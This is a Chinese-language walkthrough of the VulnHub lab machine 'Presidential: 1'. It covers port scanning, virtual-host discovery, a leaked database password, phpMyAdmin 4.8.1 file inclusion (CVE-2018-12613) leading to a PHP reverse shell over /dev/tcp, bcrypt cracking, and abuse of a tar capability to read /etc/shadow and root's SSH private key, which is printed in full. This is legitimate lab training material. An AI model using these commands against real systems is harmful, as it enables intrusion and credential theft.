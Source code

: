 靶机地址：[Presidential: 1 ~ VulnHub](https://www.vulnhub.com/entry/presidential-1,500/)

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.55"
sudo nmap -p "80,2082" -sV "192.168.1.55"
# 80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.5.38)
# 2082/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
```

访问web服务，没发现什么特别的
进行web路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.55"
# /config.php.bak
# /cgi-bin/
```
查看到如下内容
```php
<?php

$dbUser = "votebox";
$dbPass = "casoj3FFASPsbyoRP";
$dbHost = "localhost";
$dbname = "votebox";

?>
```
尝试SSH，失败了，提示好像是只能通过公钥连接
进一步信息收集
```Shell
sudo dirsearch -u http://192.168.1.55/cgi-bin/ -f -e cgi,sh
# 啥也没发现
sudo dirsearch -u http://192.168.1.55 -f -e html,txt,php -w /usr/share/dirb/wordlists/common.txt
dirb "http://192.168.1.55" -r -X .php
```
还是啥也没收集到，应该是忽略了什么
源码中的敏感信息收集的不到位，首页中可以看到这样一个邮箱 `contact@votenow.local`
改一下hosts文件，加入如下内容
```
# votenow.local
192.168.1.55    votenow.local
```
再来扫描一下
```Shell
sudo dirsearch -u "http://votenow.local"
```
还是没扫到更多信息，尝试子域名枚举
```Shell
gobuster vhost -u http://votenow.local --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt | grep "Status: 200" > res.txt
# Found: datasafe.votenow.local (Status: 200) [Size: 9502]
```
加入hosts文件
```
192.168.1.55    datasafe.votenow.local
```
访问看看，是一个phpMyAdmin的管理后台登录页面
尝试使用之前得到的账号密码登录，成功了
登录后看到版本信息
```
Version information: 4.8.1
```
搜索相关漏洞
```Shell
searchsploit phpmyadmin 4.8.1
# php/webapps/44924.txt
# php/webapps/44928.txt
# php/webapps/50457.py
```
查看本地文件包含的漏洞利用
```Shell
cat /usr/share/exploitdb/exploits/php/webapps/44928.txt
```
关键内容如下
```
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```
利用方式是，先执行SQL语句，再通过访问和session相关的连接执行代码
先插入看看
```SQL
select '<?php phpinfo();exit;?>';
```
用浏览器查看Cookie中的phpMyAdmin的值，我这里是
```
13h1ggpe5ldfpmbgkdfqvk51623sjgql
```
访问
```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_13h1ggpe5ldfpmbgkdfqvk51623sjgql
```
失败了，经过尝试，要把链接中的 `sessions` 改成 `session` ，如下
```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_13h1ggpe5ldfpmbgkdfqvk51623sjgql
```
可以看到确实执行了代码
尝试进一步利用，反弹shell，退出后台重新登录，执行如下SQL语句
```SQL
select '<?php system("bash -i >& /dev/tcp/192.168.1.26/4444 0>&1");exit;?>';
```
再次查看cookie值，先开启侦听端口，再访问
```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_e33ph8u85k16uf2fbths4c35gscm88um
```
成功获取到反弹shell，信息收集
```Shell
cat /etc/passwd | grep /bin/bash
# root:x:0:0:root:/root:/bin/bash
# admin:x:1000:1000::/home/admin:/bin/bash
```
数据库中看到一张用户表，其中保存 `admin` 用户及其密码
```
admin
$2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i
```
就这一个信息，尝试暴破
将密码 `$2y$12$d/nOEjKNgk/epF2BeAFaMu8hW4ae3JJk8ITyh48q97awT/G7eQ11i` 写入 `hash.john`
```Shell
john hash.john
# Stella
```
直接 `su` （SSH不行，不能通过密码连接）
```Shell
su admin
# Stella
```
成功了，尝试提权
```Shell
cd
ls -la
# notes.txt
cat notes.txt
```
找到一段提示，大意为：使用新命令备份和压缩敏感文件
```Shell
/sbin/getcap -r / 2>/dev/null
# /usr/bin/tarS = cap_dac_read_search+ep
```
找到一个比较可疑的，查了一下，可以绕过文件系统权限读取文件
```Shell
cd /etc/
/usr/bin/tarS -czf /tmp/shadow.tar.gz shadow
cd /tmp/
/usr/bin/tarS -zxf shadow.tar.gz
chmod 400 shadow
cat shadow
```
这样可以读取到shadow文件，尝试破解root账号密码，但失败了
换一个思路，可以获取root账号的密钥信息
```Shell
cd /tmp/
/usr/bin/tarS -czf "ssh.tar.gz" /root/.ssh
/usr/bin/tarS -zxf "ssh.tar.gz"
```
读取私钥
```Shell
ls -l /tmp/root/.ssh
cat /tmp/root/.ssh/id_rsa
```
内容如下
```
-----BEGIN RSA PRIVATE KEY-----
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
-----END RSA PRIVATE KEY-----
```
保存到本机
```Shell
chmod 600 id_rsa
ssh root@192.168.1.55 -i id_rsa -p 2082
```
成功获取到root权限